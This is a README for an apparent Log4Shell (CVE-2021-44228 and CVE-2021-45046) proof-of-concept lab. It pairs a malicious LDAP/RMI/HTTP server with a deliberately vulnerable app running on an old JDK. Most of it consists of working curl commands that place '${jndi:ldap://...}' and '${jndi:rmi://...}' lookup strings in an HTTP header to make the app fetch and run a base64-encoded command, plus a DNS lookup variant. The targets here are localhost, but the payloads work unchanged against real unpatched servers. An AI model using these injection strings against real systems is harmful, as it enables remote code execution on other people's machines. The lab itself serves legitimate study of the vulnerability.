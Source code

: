 # Log4j CVE-2021-44228 and CVE-2021-45046

## Requisites

Use a vulnerable JDK, for instance [JDK 1.8.0_181](https://www.oracle.com/es/java/technologies/javase/javase8-archive-downloads.html)

## Usage

### Malicious server

The malicious server deploys the following endpoints:
* **1389** LDAP server
* **1099** RMI server
* **8081** HTTP server 

````shell
./gradlew :malicious-server:bootRun
````

### Vulnerable application

The vulnerable application deploys one HTTP endpoint at **8082**
````shell
./gradlew :vulnerable-app:bootRun
````

## Remote Code Execution

Choose a payload that will be executed by the vulnerable app and encode it in Base64. As an example, in order to open the 
calculator in Windows: ```calc.exe```

### LDAP

````shell
curl --header "X-Vulnerable-Header: ${jndi:ldap://localhost:1389/payload/Log4j/Y2FsYy5leGU=}" http://127.0.0.1:8082/
````

### RMI

````shell
curl --header "X-Vulnerable-Header: ${jndi:rmi://localhost:1099/payload/Log4j/Y2FsYy5leGU=}" http://127.0.0.1:8082/
````

## DNS queries

````shell
curl --header "X-Vulnerable-Header: ${jndi:dns://8.8.8.8/google.es}" http://127.0.0.1:8082/
````
